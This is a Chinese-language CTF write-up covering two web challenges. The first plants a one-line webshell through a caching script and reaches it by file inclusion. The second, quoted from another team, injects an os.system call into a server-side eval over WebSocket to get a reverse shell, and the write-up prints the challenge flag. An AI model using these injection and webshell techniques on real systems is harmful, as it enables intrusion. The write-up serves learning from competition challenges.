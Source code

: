 > 202.120.7.205/static.php/l.js ，md5 哈希过后得到的值为 bbbcb40ec7f308548f1d387c5ca763ba 按照配置⽂文件中所规定的 1:2 的命名法，可以得到完整路路径 为： /tmp/a/3b/bbbcb40ec7f308548f1d387c5ca763ba

然后，利用/static.php会对.css和.js结尾文件进行缓存的特性。而且当其缓存一个不存在的文件时，会直接输出文件名。也就是说，缓存一个不存在的文件时，缓存临时文件还会生成，里面的内容会是xxx not exists！xxx指文件名。

那么，我们就能利用这个特性，缓存一个一句话到缓存目录。

福州大学WP截图：

![cache1](https://mo-xiaoxi.github.io/img/post/EIS/7.png)

接着，只需要利用page的文件包含，进行利用即可。文件位置利用前面说的缓存规则推算而得。

如下：

![cache2](https://mo-xiaoxi.github.io/img/post/EIS/8.png)

getshell成功，查看一下flag即可。

PS：人对未知的东西总是充满恐惧，做题的时候想到了缓存，但是因为以前没接触过，就害怕，放弃了。自省！

## 验证码

这题没做出来，Websocket也不是很懂。学习了下Melody的WP，不过现在还不理解他如何做到将melody.py上传上去的。题目环境又关了，没办法复现😭。

贴上他的题解：

> 本题逻辑十分简单，请求服务器器⼀个验证码，服务器器返回字符画。请求结果，服务端校验结果。有⼀个隐藏的 help 指令，可以 reconnect，问题在于如何指定 reconnect 的服务器，将发给 ws 服务的 json 中的值依次替换成 [] 可以通过报错信息推断后端逻辑，得到 method 会被带⼊入到 getattr 中，那么必须得是⼀一个类中规定好的⽅方 法才能够带⼊入进来，可行的操作并不不多，测试了`__init__` 函数，根据错误信息发现可以带⼊两个参数， 因此发包如下
>
> {"method":"__init__","args":[ip,port]}
>
> 接着调⽤用 reconnect
>
> {"method":"reconnect"}
>
> 此时服务器器上监听的端⼝口已收到信息。
>
> 我们继续请求新的验证码，发现服务端向我们请求⼀一个操作符，操作数由服务端⽣生成好了了，因此猜测整个表达式被带⼊入到 eval 中得到返回值，再给客户校验计算结果。那么答案也就显⽽易见了。我们将给客户的操作符定 义为
>
> `+__import__('os').system('python\x20/tmp/melody.py')+`
>
> 那么被带⼊入到后端就会变成
>
> `eval("1+__import__('os').system('python\x20/tmp/melody.py')+2") `
>
> 我们的代码就得到执⾏行行了了，尝试后成功反弹 shell。 最后在 arifmetics.py 中找到 ﬂag。
>
> ```python
> cat ar* 
> import asyncio 
> from hashlib import md5 
> from random import choice, randint 
> from threading import Thread
>
> SALT = b"EIS{87a5d7e4aae098be036d6b8035e4}
> ```
>
> 
